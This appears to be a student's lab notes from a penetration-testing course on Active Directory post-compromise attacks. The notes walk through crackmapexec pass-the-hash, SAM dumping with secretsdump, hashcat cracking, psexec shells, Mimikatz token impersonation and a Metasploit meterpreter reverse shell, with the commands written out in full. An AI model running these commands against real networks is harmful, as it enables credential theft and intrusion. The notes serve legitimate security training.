Attacks covered in this section involve having some sort of credential first.
- Username & Password
- Shell on a machine

**Attacks:**
- Pass the hash
- Pass the password
- Token impersonation 
- Kerberoasting 
- GPP/cPassword attacks
	- https://www.hackingloops.com/gpp-cpassword-attack-the-tale-of-leaked-key/
- Golden Ticket attacks

### Pass the Password Pass the Hash

If we crack a password or can dump the SAM hashes, we can leverage both for lateral movement in networks.

Tools: crackmapexec

Use:
```sh
crackmapexec 10.0.3.0/24 -u fcastle -d MARVEL -p Password1
```



```sh
crackmapexec <ip/CIDR> -u <username> -d <domain> -p <password>
```

Grab local hashes (metasploit)



Pass the hash

```sh
crackmapexec <ip/CIDR> -u <username> -H <hash> --local
```



You don't need to crack the password to pass the hash. 

Install crackmapexec
```sh
sudo apt install crackmapexec
```

View help screen
```sh
crackmapexec --help
```

**New Syntax for CrackMapExec**
```sh
crackmapexec smb <ip/CIDR> -u <username> -d <domain> -p <password> 
```
- It looks like you just need to add the smb part now

So for the lab we'd use
```sh
crackmapexec smb 10.0.3.0/24 -u fcastle -d MARVEL.local -p Password1
```


_The smb part is not in this command, but make sure to use it_

Here what you're looking at is that crackmap has owned the spiderman account as it already knew about the punisher account (fcastle).

Trying to dump the SAM file, which doesn't always work:
```sh
crackmapexec smb 10.0.3.0/24 -u fcastle -d MARVEL.local -p Password1 --sam
```
- Other options to try and dump
	- lsa
	- ntds

**psexec**
```sh
psexec.py marvel/fcastle:Password1@10.0.3.5
```

We can also use the matasploit version to try and get a meterpreter session.

You want to avoid using this for password spraying because you could end up locking out the users if the have a failed login attempt policy in place. You can try that with a local account. Local accounts don't have the same lockout policy like domain accounts do.

**Small Note**
Don't be confused when the IPs are changing. The lecture must have had been done in two parts, or they were changed at some point during the course. Just use whatever your AD network is on, in my case it's the `10.0.3.0/24` network. 
### How to Dump Hashes

Previously, we discover that `.142` and `.141` have the same local admin account of Frank Castle.

Using secrets dump, which is also part of the impacket toolkit. 
```sh
secretsdump.py marvel/fcastle:Password1@192.168.57.141
```



This will also dump LSA secrets and the DPAPI key. We can copy the results from both secretsdump outputs and put them into a text editor. That way, we can see if the last part of the hash is the same which would indicate password reuse. 

We could also use this in a pass the hash attack or try and crack them. 

We are not interested in the default account, guest account, or the WDAGUtiliity account, so we can delete those from the test file that we pasted them into. We are only interested in the user and admin accounts. 

These hashes are NTLM. NTLM hashes are local hashes found in the SAM.We can move them into a text file on our host machine for cracking using hashcat.  

We can use grep to find the correct hash id:
```sh
haschcat -h | grep NTLM
```

Crack the passwords in the file
```sh
hashcat -m 1000 hashes.txt rockyou.txt -O
```
- If you see a blank password the account might have been disabled

**Pass the Hash**

You only need the last part of the hash which is the password and it starts after the `:`
**Another small update to the syntax as shown below.** This video is from 2023 so it could have changed again, so make sure to run a help command if something isn't working. 

Using crackmapexec:
```sh
crackmapexec smb 192.168.57.0/24 -u "Frank Castle" -H <hash> --local-auth
```

psexec.py can utilise hashes to gain a shell:
```sh
psexec.py "frank castle":@192.168.57.141 -hashes <full-hash>
```
- You can only use this on the machine that you have the hash for. If you tried it on `.142`, for example, it wouldn't work, and you would get a login failure. 
- This might require the SMB, but it didn't say so, so keep that in mind. ALways check the help menu. 



If this works you then run the hash command and try and get a shell.

**CyberArk**

A Domain Admin password management system that generates a very long password for you to use for 8 hours while at work. The next day the password will be changed to a different one. This is why going after the local admin accounts can be quite powerful.

---
### Mitigation 



---
### Token Impersonation









This PowerShell script, Invoke-Mimikatz, is trying to dump hashes.

**What if a Domain Admin Token was Available?**





The `marvel\administrator`account is now available to us.

We try running `Invoke-Mimikatz`again, and it is successful this time!



This dumps all the hashes in the Network, including the Kerberos hash.



**How to Perform the Attack**

```sh
msfconsole
```

```sh
use exploit/windows/smb/psexec
```

```sh
options
```

```sh
set rhosts 192.168.57.141
```

```sh
set smbdomain marvel.local
```

```sh
set smbpass Password1
```

```sh
set smbuser fcastle
```

Native upload
```sh
show targets
```

```sh
set target 2
```

Check everything is entered correctly
```sh
options
```

Set payload
```sh
set payload windows/x64/meterpreter/reverse_tcp
```

```sh
set lhost eth0
```

```sh
run
```

This should get us a meterpreter session.

